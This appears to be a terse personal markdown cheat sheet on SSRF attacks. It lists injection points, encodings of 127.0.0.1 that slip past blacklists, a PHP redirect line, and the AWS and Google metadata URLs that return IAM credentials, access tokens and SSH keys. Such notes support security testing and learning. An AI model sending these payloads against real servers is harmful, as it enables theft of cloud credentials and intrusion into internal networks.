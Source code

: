 # SSRF

## WHERE

### File Upload	(SVGs, JPGs, XMLs and JSONs)
	
#### SVGs : 

- Proxies
- Admin Configuration
- Webhooks
- URLs embedded in files that are processed by the application
- Hidden API endpoints that accept URLs as input
- HTML tag injections

## BYPASS

### Whitelist
	
* Open redirect
* @ , # , / , . 
* Encoding ?

### Blacklist
	
* Encoding
	
		. Hex : 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
		. Octal : 127.0.0.1 translates to 0177.0.0.01
		. DWord : 127.0.0.1 translates to 2130706433
		. URL Encoding : localhost translates to %6c%6f%63%61%6c%68%6f%73%74
		. Mixed : 127.0.0.1 translates to 0177.0.0.0x1

* Ip V6
* DNS 
* Redirect : <?php header(“location: http://127.0.0.1"); ?> / TinyUrl 

## EXPLOIT

### Collect instance metadata 
	
#### AWS

	* http://169.254.169.254/latest/meta-data/ returns the list of available metadata that you can query.

	* http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal hostname used by the host.

	* http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME returns the security credentials of that role.

	* http://169.254.169.254/latest/dynamic/instance-identity/document reveals the private IP address of the current instance.

	* http://169.254.169.254/latest/user-data/ returns user data on the current instance. 

#### GOOGLE

	* http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token returns the access token of the default account on the instance.

	* http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-key returns public SSH keys that can connect to other instances in this project.

### fingerprinting : 
	
* internally : port scanning, other services on internal ip ? 

		. Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses
		. 127.0.0.0/8
		. 192.168.0.0/16
		. 10.0.0.0/8

* externally : user agent in dns/http request

### Bypass access controls

### RCE ???

## LINKS

	- SSRF Bible : <https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#heading=h.kwcnj7jh5zyy>

	- Vickie Li : <https://medium.com/@vickieli/sitemap-xml-6ecc3b14b4f>

	- Internal adress : <https://en.wikipedia.org/wiki/Reserved_IP_addresses>

	- Common ports : <https://packetlife.net/media/library/23/common-ports.pdf>
	
	- AWS EC2 Docs: <http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html> (includes a comprehensive Instance Metadata Categories table)
	
	- Toutes les references possibles !!! : <https://medium.com/@pravinponnusamy/ssrf-payloads-f09b2a86a8b4>
